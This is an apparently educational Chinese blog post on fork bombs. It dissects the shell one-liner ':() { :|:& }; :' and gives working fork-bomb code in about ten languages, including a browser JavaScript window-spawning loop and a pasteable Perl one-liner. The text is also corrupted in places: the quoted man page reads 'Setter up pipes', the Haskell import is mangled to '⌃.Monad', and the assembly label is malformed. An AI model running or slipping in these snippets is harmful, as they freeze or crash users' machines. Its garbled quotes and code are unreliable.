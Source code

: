 ```yaml
---
title: "Fork Bomb"
category: "UNIX"
img: "unix.jpg"
tags: [UNIX/Linux,Fork,Fork Bomb,Virus]
---
```

最开始知道 Fork Bomb 这个名词，是因为这样一句代码:

```sh
:() { :|:& }; :
```

乍看之下它是那么诡异又极具魅力，fork 这个东西相信大家也都不陌生，在 UNIX/Linux 中 man 指令对 fork() 的解释为:

> Fork() causes creation of a new process.  The new process (child process) is an exact copy of the calling process (parent process) except for the following:
>
* The child process has a unique process ID.

* The child process has a different parent process ID (i.e., the process ID of the parent process).

* The child process has its own copy of the parent's descriptors.  These descriptors reference the same underlying objects, so that, for instance, file pointers in file objects are shared between the child and the parent, so that an lseek(2) on a descriptor in the child process can affect a subsequent read or write by the parent.  This descriptor copying is also used by the shell to establish standard input and output for newly created processes as well as to Setter up pipes.

* The child processes resource utilizations are Setter to 0; see setrlimit(2).

也就是说， Fork Bomb 的基本思路就是无限循环创建子进程(或者类似的操作)。下面来分析一下开头提到的代码，其实它很简单，那个迷惑人的冒号 (`:`) 只是一个函数名，我们把它替换成 func 再来看看:

```sh
func() { func|func& }; func
```

然后，再加几个换行:

```sh
func(){
	func|func&
};
func
```

现在，它又回到了一个极其普通的函数应有的样子。接下来我们将它改为更简短的脚本形式:

```sh
#!/bin/bash
$0|$0&
```

如果你有兴趣，我们也可以用其他语言来实现同样或类似的效果:

## C

首先当然是大家熟知的 C:

```c
#include <unistd.h>

int main() {
    while(fork());
}
```


## 汇编

还有更古老的汇编，当然，不是 ARM:

```sh
section .text
    global_start

_start:
    mov eax,2
    int 0x80
    jmp _start
```

## Lisp

不走寻常路的 Lisp，以 Common Lisp 为例:

```lisp
(loop (#_fork))
```

## PHP

世界上最好的语言 PHP(CLI):

```php
<?php
	while (true) {
		pcntl_fork();
	}
?>
```

## Ruby

优雅但有点慢的 Ruby:

```ruby
loop { fork { __FILE__ } }
```

## Python

还有 Ruby 的哥哥 Python:

```python
import os
while 1:
	os.fork()
```

## Perl

当然，少不了 Perl，你可以在 shell 中直接执行这句 inline 指令:

```perl
perl -e "fork while fork" &
```

## Haskell

学院派的 Haskell，来一个易懂的版本:

```haskell
import ⌃.Monad (forever)
import System.Posix.Process (forkProcess)

forkBomb = forever $ forkProcess forkBomb
main = forkBomb
```

## JavaScript

甚至还有 JS:

```js
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

当然，一个真正强有力的 Virus 很难做到如此简单，这一切都是建立在已经取得权限的基础上。
